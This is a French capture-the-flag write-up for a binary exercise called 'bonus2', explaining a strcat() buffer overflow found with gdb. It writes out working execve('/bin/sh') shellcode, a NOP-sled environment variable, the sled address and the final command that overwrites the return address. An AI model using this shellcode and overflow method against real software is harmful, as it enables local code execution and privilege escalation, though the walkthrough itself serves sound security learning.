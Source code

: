 ## bonus2

En désassemblant le binaire on observe deux fonctions: `main()` et
`greetuser()`. On voit également un appel a `getenv("LANG")`, plusieurs appel a `memcmp()`, et un appel a `strcat()` dans la fonction `greetuser()`.

Le binaire prend deux arguments qu'il va copier dans des buffers avec
`strncpy()`.

Les appels a `memcmp()` évalue la valeur de `LANG`, pour les string `nl` et
`fi`, et définis la globale `_language` a `0`, `1` ou `2`.

La string qui est affiché en sortie change selon la valeur de `_language`, mais
l'appel a `strcat()` est éffectué peut importe cette valeur.

Définissont donc la variable d'environnement `LANG` a `fi`, et lancons le
binaire avec gdb.

On va essayer de faire overflow l'appel a `strcat()`.

![image](https://user-images.githubusercontent.com/29956389/90021177-32556200-dcb1-11ea-81cc-3a22d43af3cc.png)

Le segfault est causé par le deuxieme argument. Localisons l'offset:

![image](https://user-images.githubusercontent.com/29956389/90021443-90824500-dcb1-11ea-83f2-604ed34a7c32.png)

![image](https://user-images.githubusercontent.com/29956389/90021555-b871a880-dcb1-11ea-8385-e44c453d2c43.png)

L'offset est a 18.

On insère donc notre shellcode + nopsled dans l'environnement:

`$ echo -ne
'\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80'
> /tmp/shellcode.bin`

`$ export SLEDCODE=$(python -c 'print "\x90"*420')$(cat /tmp/shellcode.bin)`

On localise l'adresse du sled:

`(gdb)> x/4s *((char**)environ + 8)`

`> de 0xbffff733 a 0xbffff8fc`

Soit `0xbffff805` vers le milieu. Ce qui nous donne:

`$ ./bonus2 $(python -c 'print [40 bytes de remplissage]') $(python -c 'print [18 bytes de remplissage] + [Adresse nopsled]')`

Soit:

`$ ./bonus2 $(python -c 'print "A"*40') $(python -c 'print "i"*18 +
"\x05\xf8\xff\xbf"')`

![image](https://user-images.githubusercontent.com/29956389/90023240-ca544b00-dcb3-11ea-9769-3236d13ffefd.png)
